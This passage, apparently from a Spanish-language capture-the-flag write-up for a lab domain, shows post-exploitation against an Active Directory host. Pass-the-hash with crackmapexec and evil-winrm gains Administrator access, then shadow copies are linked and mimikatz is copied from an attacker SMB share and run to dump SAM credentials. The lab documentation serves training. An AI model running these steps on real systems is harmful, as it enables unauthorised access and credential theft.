 ```powershell
[dev.htb.local]: PS C:\Users\Administrator\Documents>
```

Con el hash NT de Administrator, podemos verificar su validez utilizando crackmapexec para una autenticación a nivel local. Este hash es válido tanto para SMB como para WinRM.

```bash
❯ crackmapexec smb dev.htb.local -u Administrator -H 67bb396c79f56301b7dc5d219cc85d86 --local-auth
SMB         dev.htb.local   445    DEV              [*] Windows Server 2019 Standard 17763 x64 (name:DEV) (domain:DEV) (signing:False) (SMBv1:True)  
SMB         dev.htb.local   445    DEV              [+] DEV\Administrator:67bb396c79f56301b7dc5d219cc85d86 (Pwn3d!)

❯ crackmapexec winrm dev.htb.local -u Administrator -H 67bb396c79f56301b7dc5d219cc85d86 --local-auth
SMB         dev.htb.local   5985   DEV              [*] Windows 10.0 Build 17763 (name:DEV) (domain:DEV)
HTTP        dev.htb.local   5985   DEV              [*] http://dev.htb.local:5985/wsman
WINRM       dev.htb.local   5985   DEV              [+] DEV\Administrator:67bb396c79f56301b7dc5d219cc85d86 (Pwn3d!)
```

Podemos simplemente conectarnos con `evil-winrm` usando el hash y leer la `flag`

```powershell
❯ evil-winrm -i dev.htb.local -u Administrator -H 67bb396c79f56301b7dc5d219cc85d86  
PS C:\Users\Administrator\Documents> whoami
dev\administrator
PS C:\Users\Administrator\Documents> type ..\Desktop\flag.txt
HADES{Sp0ol******sO_Brok3n}
```
Se encontró una copia shadow con vssadmin para dev.htb.local. Para facilitar el acceso, se creará un enlace en la ruta de la copia para acceder desde el directorio C:\VSS, que es un nombre más corto.

```powershell
PS C:\Users\Administrator\Documents> vssadmin list shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Contents of shadow copy set ID: {001689e5-f1a7-40a8-8b5b-8b6371bd07ca}
   Contained 1 shadow copies at creation time: 9/9/2019 3:10:57 AM
      Shadow Copy ID: {046396e4-6312-45b7-96cd-5e5f6fb017ef}
         Original Volume: (C:)\\?\Volume{21385651-0000-0000-0000-602200000000}\
         Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
         Originating Machine: dev.htb.local
         Service Machine: dev.htb.local
         Provider: 'Microsoft Software Shadow Copy provider 1.0'
         Type: ClientAccessible
         Attributes: Persistent, Client-accessible, No auto release, No writers, Differential  

PS C:\Users\Administrator\Documents> cmd /c mklink /d C:\VSS \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\  
symbolic link created for C:\VSS <<===>> \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
PS C:\Users\Administrator\Documents>
```


[dev.htb.local]: PS C:\Users\Administrator\Documents> whoami
[dev.htb.local]: PS C:\Users\Administrator\Documents> cp \\10.10.14.10\kali\mimikatz.exe .
[dev.htb.local]: PS C:\Users\Administrator\Documents> .\mimikatz.exe 'token::elevate' 'lsadump::sam' exit